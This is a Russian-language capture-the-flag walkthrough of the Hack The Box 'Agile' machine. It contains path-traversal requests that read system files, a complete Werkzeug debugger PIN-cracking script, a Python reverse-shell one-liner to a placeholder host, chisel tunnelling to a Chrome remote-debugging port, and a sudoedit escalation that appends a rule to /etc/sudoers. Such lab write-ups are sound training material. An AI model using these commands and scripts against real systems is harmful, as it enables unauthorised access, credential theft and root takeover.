










# Agile
:white_check_mark:  [**Werkzeug Debugger Console Pin**](#WerkzeugDebuggerConsolePin)

:white_check_mark:  [**Chrome-remote-debugger**](#ChromeRemoteDebugger)

:white_check_mark:  [**Sudoedit(privesc)**](#sudoedit)
___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV agile.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f4:bc:ee:21:d7:1f:1a:a2:65:72:21:2d:5b:a6:f7:00 (ECDSA)
|_  256 65:c1:48:0d:88:cb:b9:75:a0:2c:a5:e6:37:7e:51:06 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Перейдя по URL мы можем заменить поддомен superpass.htb. 



Добавим его в /etc/hosts. Перейдем на главную страницу.


Создадим нового пользователя.



Найдем доступные директории используя gobuster.

```
gobuster dir -u http://superpass.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```



<a name="WerkzeugDebuggerConsolePin"></a>

## Werkzeug Debugger Console Pin

Перейдя к директории, мы можем обнаружить ошибку. Так же мы можем увидеть, что нам нужно отправить что-то параметру **fn**.


Попробуем открыть фалй /etc/passwd через данный параметр.

```
superpass.htb/download?fn=../../../../../../etc/passwd
```


Мы можем заметить, что мы можем получить доступ к командной строке, но нам требуется PIN от Werkzeug Debugger Console Pin.

Мы можем найти пару статей в интернете на тему того, как обойти данный PIN. Данный [cайт](https://www.bengrewell.com/cracking-flask-werkzeug-console-pin/) и данный [сайт](https://www.daehee.com/werkzeug-console-pin-exploit/) предоставляют иформацию как это сделать.

1. Для начала нам нужно найти имя пользователя, который запускает данный дебаггер. По стандарту это **www-data**.

2. Далее нам нужен modname. По стандарту это **flask.app**.

3. Теперь на нужен getattr(app, '\_\_name\_\_', getattr (app .__ class__, '\_\_name\_\_')). По стандарту это **wsgi_app**.

4. Далее нам нужно найти getattr(mod, '\_\_file\_\_', None), то есть абсолютный путь до flask. Его мы можем найти используя LFI, которую мы найшли ранее. Наш путь будет следующим: **/app/venv/lib/python3.10/site-packages/flask/app.py**.

5. Следующим шагом будет нахождение MAC-адреса ПК на котором стоит flask. Сделать это можно следующим образом:

```
http://superpass.htb/download?fn=../../../../../../proc/net/arp
http://superpass.htb/download?fn=../../../../../../sys/class/net/eth0/address
```

Найдя MAC-адрес, убираем разделения ":". Скорипуем, то что мы получили и запустим python. Нужно перевести данный MAC-адрес в шестнадцатеричную систему. 

```
python3

print(0x005056b93438)
345052361784
```

6. Теперь нам нужно найти get_machine_id().

```
http://superpass.htb/download?fn=../../../../../../../etc/machine-id
/proc/self/cgroup

ed5b159560f54721827644bc9b220d00superpass.service
```

Теперь у нас есть все что нужно для атаки. Для этого мы будем использовать следующий скрипт, в который вставим найденные нами значения.

```
import hashlib
import itertools
from itertools import chain

def crack_md5(username, modname, appname, flaskapp_path, node_uuid, machine_id):
    h = hashlib.md5()
    crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)

def crack_sha1(username, modname, appname, flaskapp_path, node_uuid, machine_id):
    h = hashlib.sha1()
    crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)

def crack(hasher, username, modname, appname, flaskapp_path, node_uuid, machine_id):
    probably_public_bits = [
            username,
            modname,
            appname,
            flaskapp_path ]
    private_bits = [
            node_uuid,
            machine_id ]

    h = hasher
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                              for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    print(rv)

if __name__ == '__main__':

    usernames = ['corum','edwards','www-data']
    modnames = ['flask.app', 'werkzeug.debug']
    appnames = ['wsgi_app', 'DebuggedApplication', 'Flask']
    flaskpaths = ['/app/venv/lib/python3.10/site-packages/flask/app.py']
    nodeuuids = ['345052361784']
    machineids = ['ed5b159560f54721827644bc9b220d00superpass.service','ed5b159560f54721827644bc9b220d00']

    # Generate all possible combinations of values
    combinations = itertools.product(usernames, modnames, appnames, flaskpaths, nodeuuids, machineids)

    # Iterate over the combinations and call the crack() function for each one
    for combo in combinations:
        username, modname, appname, flaskpath, nodeuuid, machineid = combo
        print('==========================================================================')
        crack_sha1(username, modname, appname, flaskpath, nodeuuid, machineid)
        print(f'{combo}')
        print('==========================================================================')
```

Запускаем скрипт и получаем значение PIN. Получаем доступ к командной строке.



Получим обратную оболочку командой:

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR-IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```



Закинем на машину linpeas.sh и запустим скрипт.


<a name="ChromeRemoteDebugger"></a>

## Chrome-remote-debugger

Мы можем обнаружить **--remote-debugging-port=41829**.

Закинем на машину chisel и прокинем порт на нашу атакующую машину.

```
1. Запустить chisel на атакующей машине: ./chisel server --reverse -p 6789
2. Запустить chisel на атакуемой машине: ./chisel client 10.10.14.124:6789 R:2222:127.0.0.1:41829
```

В интернете мы можем найти [статью](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/) в которой описано, как мы можем использовать данную уязвимость.

В Chrome перейдем по URL: **chrome://inspect/#devices**. И сконфигурируем наш адрес.






Нажимаем на кнопку inspect и попадаем на сайт, но уже под другим пользователем.



Получаем пароль пользователя edwards. Меняем пользователя на edwards.


<a name="sudoedit"></a>

## Sudoedit(privesc)

Проверим права на выполнение команд: **sudo -L**.



В данной [статье](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/) мы можем найти как эксплуатировать данную уязвимость.

Нам нужен файл активации, который мы можем найти в **/app/venv/bin/activate**

```
export EDITOR="nano -- /app/venv/bin/activate"
sudo -u dev_admin sudoedit /app/config_test.json
```

Записываем строку для получения доступа ко всем командам в данный файл.

```
echo "edwards ALL=(ALL:ALL) ALL" >> /etc/sudoers
```



Получаем доступ к root.

```
sudo su root
```

